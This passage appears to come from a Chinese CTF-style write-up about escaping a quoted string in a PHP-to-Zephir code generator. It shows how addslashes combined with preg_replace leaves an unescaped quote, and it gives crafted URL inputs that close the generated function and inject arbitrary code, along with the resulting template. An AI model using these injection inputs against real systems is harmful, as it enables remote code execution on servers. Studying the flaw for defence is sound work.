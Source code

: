 ```php
} else {
    echo 'Class \\{namespace}\\{class} not found';
}
?>
```

Zephir 主要流程是将 php 代码生成 c 代码再编译得到 so 文件。

## `\` 绕过

使用 `\"` 经过`addslashes` + `preg_replace` 后会变成 `\\"` 从而逃出引号。

```php
<?php
$url = "\(";
$url = addslashes($url);
echo $url;
$url2 = preg_replace('/\{url\}/', $url, "{url}");
echo $url2;
// output:
// \\(
// \(
```

构造：
```
https://store.steampowered.com/app\");}}
payload
function foo(){if false{var bar=0;//
```

**使用 `${2}` ?**
```
https://store.steampowered.com/app${2}
payload/*
```

php模板会变成：
```php
namespace Admin;

class Simple{
    public function getURL(){
        return "base64";
    }
    public function test(){
        var ch = curl_init();
        curl_setopt(ch, CURLOPT_URL, "https://store.steampowered.com/app");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
payload/*");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
```
